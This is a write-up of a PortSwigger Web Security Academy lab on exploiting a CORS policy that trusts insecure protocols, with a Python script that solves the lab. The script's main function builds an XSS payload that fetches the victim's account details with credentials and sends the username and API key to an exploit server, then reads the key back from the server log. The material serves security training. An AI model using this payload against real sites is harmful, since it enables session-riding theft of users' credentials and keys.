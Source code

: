 ## Web security academy
### Lab Title: CORS vulnerability with trusted insecure protocols
### Lab: 03
Extracting the administrator API-KEY using CORS vulnerability with trusted insecure protocols.

## My Points:

1. **Introduction:** <br>[Portswigger's web security academy](https://portswigger.net/) is a platform that provides practice labs for finding web application vulnerabilities. In this Lab-03 the victim is redirected to the insecure protocols to get the API-KEY.

2. **Technique Fetch Method :**
     - **Fetch Method:** is used to get the resources like XMLHttpRequest, and for details check the references.
     <br>
     
     > Windows: 
     ```
     python lab-03.py
     ```
     
     > Linux:
     ```
     python3 lab-03.py
     ```


3. **Code:**
     - **Define main variables:**
     
        ```    
        # Burp Suite proxy
        proxy_urls = {
          'http': 'http://127.0.0.1:8080',
          'https': 'http://127.0.0.1:8080',
        }
       
        ```
        <br>
        
     - **User inputs:** When the program executes, it takes Lab URL and Exploit Server URL from the user.
      - **Note:** The default exploit server's URL that ends with /exploit used in this code that's why don't change /exploit unless you know how to edit the code.   

        ```        
        if __name__ == "__main__":
         # User input: Lab URL(s)
         k_lab = input("Enter Lab URL: ").strip().rstrip("/").lstrip("https://")
         k_exploit_server = input("Enter Exploit Server URL: ").strip().rstrip("exploit").rstrip("/")

         if (not (k_lab and k_exploit_server)):
             print()
             print("[-] Error! Input URL(s) missing.")
             print("[-] Lab URL: https://a...........c2.web-security-academy.net")
             print("[-] Exploit Server URL: https://exploit-a...........c2.web-security-academy.net/exploit")
             sys.exit()
         else:
             main()
        ```     
     
        - Enter URL: Get lab URL from your browser address bar and paste it.

        - Enter URL: Get Exploit Server URL from your browser address bar and paste it.
    <br>

    - **Main Function:** After giving the required input the main function is called.

        ```        
        def main():
          # Xss injection + account APIKEY request + send APIKEY to exploit server
         cors_access = f"<script>location=\"http://stock.{k_lab}/?productId=1<script>fetch('https://{k_lab}/accountDetails',{{credentials:'include'}}).then(res=>res.json()).then(data=>fetch('{k_exploit_server}/exploit/log?key='%2BencodeURIComponent(data.username%2B':'%2Bdata.apikey)))%3C/script>&storeId=1\"</script>"

         payload = {
             'urlIsHttps':'on',
             'responseFile': '/exploit',
             'responseHead': "HTTP/1.1 200 OK\r\nContent-Type: text/html; charset=utf-8",
             'responseBody': cors_access,
             'formAction':'DELIVER_TO_VICTIM'
         }

         # Send payload to exploit server
         res = requests.post(
             k_exploit_server, 
             data = payload, 
             headers = {'Content-type':'application/x-www-form-urlencoded'},
             proxies = proxy_urls,
             verify = False
             )

         if res:
             api_key = get_apikey()

             if api_key:
                 print('APIKEY: ' + api_key)
             else:
                 print('[-] Error in getting APIKEY.')
         else:
             print('[-] Error in sending payload to exploit server.')          
        ```

       The main points of this function:
     
     1. Location is used to redirect to the insecure path.
     2. Xss attack injected to the product ID.
     3. In Xss a **<script>** is injected using fetch method, and fetch method credentials are also included in the request. 
     4. After getting a response, again a fetch method is used to send username and apikey to the exploit server. I am only sending ( username : apikey ) in this format.
     5. Then get_apikey() function is called. In this function, API-KEY is extracted using regular expression.
     <br>
     
     
     ```        
     def get_apikey():
          res = requests.get(k_exploit_server + '/log', proxies=proxy_urls, verify=False)

         if res:
             data = requests.utils.unquote(res.text)
             pattren = re.compile('administrator:(\S*)')
             result = pattren.search(data)

             if result and result.group(1) is not None:
                 return result.group(1)
             else:
                 return False
          
      ```


## References:
   - [https://portswigger.net/web-security/dashboard](https://portswigger.net/web-security/dashboard)
   - [https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API)


